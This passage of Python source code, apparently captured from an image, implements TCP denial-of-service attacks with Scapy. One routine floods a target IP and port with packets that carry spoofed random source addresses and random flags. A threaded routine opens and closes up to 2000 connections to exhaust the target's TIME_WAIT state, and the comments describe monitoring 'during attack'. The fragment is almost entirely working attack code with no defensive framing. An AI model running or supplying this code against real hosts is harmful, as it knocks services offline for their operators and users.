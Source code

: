 ```python
    
    for i in range(count):
        src_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        src_port = random.randint(1024, 65535)
        flag = random.choice(flags_list)
        
        packet = IP(src=src_ip, dst=target_ip) / \
                 TCP(sport=src_port, dport=target_port, flags=flag, 
                     seq=random.randint(1, 4294967295))
        send(packet, verbose=0)
        
        if i % 200 == 0:
            print(f"Sent {i} mixed state packets")
            time.sleep(0.1)

def time_wait_exhaustion(target_ip, target_port, count=2000):
    """TIME_WAIT state exhaustion"""
    def create_time_wait(conn_id):
        try:
            src_port = random.randint(1024, 65535)
            
            # Establish connection
            syn = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port, flags="S", seq=1000)
            syn_ack = sr1(syn, timeout=2, verbose=0)
            
            if syn_ack and syn_ack[TCP].flags == 18:
                # Complete handshake
                ack = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port,
                                             flags="A", seq=1001, ack=syn_ack[TCP].seq+1)
                send(ack, verbose=0)
                
                # Initiate close (FIN)
                fin = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port,
                                             flags="FA", seq=1001, ack=syn_ack[TCP].seq+1)
                fin_ack = sr1(fin, timeout=2, verbose=0)
                
                if fin_ack:
                    # Final ACK to complete close
                    final_ack = IP(dst=target_ip) / TCP(sport=src_port, dport=target_port,
                                                       flags="A", seq=1002, ack=fin_ack[TCP].seq+1)
                    send(final_ack, verbose=0)
                    print(f"TIME_WAIT state {conn_id} created")
                    
        except Exception as e:
            print(f"TIME_WAIT creation {conn_id} failed: {e}")
    
    threads = []
    for i in range(count):
        thread = threading.Thread(target=create_time_wait, args=(i,))
        thread.daemon = True
        thread.start()
        threads.append(thread)
        
        if i % 50 == 0:
            time.sleep(0.5)
    
    for thread in threads:
        thread.join()

# State monitoring function
def monitor_states():
    """Monitor TCP states during attack"""
    import subprocess
```